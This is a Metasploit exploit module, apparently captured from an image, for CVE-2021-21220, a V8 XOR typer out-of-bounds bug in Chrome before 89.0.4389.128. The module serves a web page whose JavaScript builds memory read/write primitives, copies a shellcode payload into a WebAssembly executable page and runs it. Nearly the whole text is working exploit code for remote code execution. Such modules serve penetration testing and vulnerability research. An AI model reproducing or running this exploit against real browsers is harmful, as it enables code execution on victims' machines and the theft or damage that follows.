 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ManualRanking

      include Msf::Post::File
      include Msf::Exploit::Remote::HttpServer

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Google Chrome versions before 89.0.4389.128 V8 XOR Typer Out-Of-Bounds Access RCE',
            'Description' => %q{
              This module exploits an issue in the V8 engine on x86_x64 builds of Google Chrome before 89.0.4389.128/90.0.4430.72
              when handling XOR operations in JIT'd JavaScript code. Successful exploitation allows an attacker to execute
              arbitrary code within the context of the V8 process.

              As the V8 process is normally sandboxed in the default configuration of Google Chrome, the browser must be run with the
              --no-sandbox option for the payload to work correctly.
            },
            'License' => MSF_LICENSE,
            'Author' => [
              'Bruno Keith (bkth_)', # Vulnerability Discovery
              'Niklas Baumstark (_niklasb)', # Vulnerabilty Discovery
              'Rajvardhan Agarwal (r4j0x00)', # exploit
              'Grant Willcox (tekwizz123)' # Metasploit Module
            ],
            'References' => [
              ['CVE', '2021-21220'],
              ['URL', 'https://github.com/r4j0x00/exploits/tree/master/chrome-0day'],
              ['URL', 'https://twitter.com/r4j0x00/status/1382125720344793090'],
              ['URL', 'https://bugs.chromium.org/p/chromium/issues/detail?id=1196683'], # Restricted at the time of writing, but should be public at some point.
              ['URL', 'https://www.zerodayinitiative.com/advisories/ZDI-21-411/']
            ],
            'Arch' => [ ARCH_X64 ],
            'DefaultTarget' => 0,
            'Payload' =>
            {
              'Space' => 4096
            },
            'Notes' =>
            {
              'Reliability' => [ REPEATABLE_SESSION ],
              'SideEffects' => [ IOC_IN_LOGS ]
            },
            'Targets' =>
              [
                ['Linux - Google Chrome < 89.0.4389.128/90.0.4430.72 (64 bit)', { 'Platform' => 'linux' }],
                ['Windows 10 - Google Chrome < 89.0.4389.128/90.0.4430.72 (64 bit)', { 'Platform' => 'win' }],
                ['macOS - Google Chrome < 89.0.4389.128/90.0.4430.72 (64 bit)', { 'Platform' => 'osx' }],
              ],
            'DisclosureDate' => '2021-04-13'
          )
        )
      end

      def on_request_uri(cli, request)
        print_status("Sending #{request.uri} to #{request['User-Agent']}")
        shellcode = Rex::Text.to_num(payload.encoded).gsub(/\r\n/, '')
        jscript = <<~JS
          var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
          var wasm_mod = new WebAssembly.Module(wasm_code);
          var wasm_instance = new WebAssembly.Instance(wasm_mod);
          var wasm_main_func = wasm_instance.exports.main;

          var buf = new ArrayBuffer(8);
          var f64_buf = new Float64Array(buf);
          var u64_buf = new Uint32Array(buf);

          var shellcode = new Uint8Array([#{shellcode}]);
          var shellbuf = new ArrayBuffer(shellcode.length);
          var dataview = new DataView(shellbuf);

          function ftoi(val) {
            f64_buf[0] = val;
            return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
          }

          function itof(val) {
            u64_buf[0] = Number(val & 0xffffffffn);
            u64_buf[1] = Number(val >> 32n);
            return f64_buf[0];
          }

          const _arr = new Uint32Array([2**31]);

          function foo() {
            var x = 1;
            x = (_arr[0] ^ 0) + 1;

            x = Math.abs(x);
            x -= 0x7FFFFFFF;
            x = Math.max(x, 0);

            x -= 1;
            if(x==-1) x = 0;

            var arr = new Array(x);
            arr.shift();
            var cor = [1.1, 1.2, 1.3];

            return [arr, cor];
          }

          for(var i=0;i<0x3000;++i)
            foo();

          var x = foo();
          var arr = x[0];
          var cor = x[1];

          const idx = 6;
          arr[idx+10] = 0x4242;

          if (cor.length == 3) location.reload();

          function addrof(k) {
            arr[idx+1] = k;
            return ftoi(cor[0]) & 0xffffffffn;
          }

          function fakeobj(k) {
            cor[0] = itof(k);
            return arr[idx+1];
          }

          var arr2 = [cor[3], 1.2, 2.3, 3.4];
          var fake = fakeobj(addrof(arr2) + 0x20n);

          function arbread(addr) {
            if (addr % 2n == 0) {
              addr += 1n;
            }
            arr2[1] = itof((2n << 32n) + addr - 8n);
            return (fake[0]);
          }

          function arbwrite(addr, val) {
            if (addr % 2n == 0) {
              addr += 1n;
            }
            arr2[1] = itof((2n << 32n) + addr - 8n);
            fake[0] = itof(BigInt(val));
          }

          function copy_shellcode(addr, shellcode) {
            let buf_addr = addrof(shellbuf);
            let backing_store_addr = buf_addr + 0x14n;
            arbwrite(backing_store_addr, addr);

            for (let i = 0; i < shellcode.length; i++) {
              dataview.setUint8(i, shellcode[i]);
            }
          }

          var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
          copy_shellcode(rwx_page_addr, shellcode);
          wasm_main_func();
        JS

        html = <<~HTML
          <html>
          <head>
          <script>
          #{jscript}
          </script>
          </head>
          <body>
          </body>
          </html>
        HTML
        send_response(cli, html, { 'Content-Type' => 'text/html', 'Cache-Control' => 'no-cache, no-store, must-revalidate', 'Pragma' => 'no-cache', 'Expires' => '0' })
      end

    end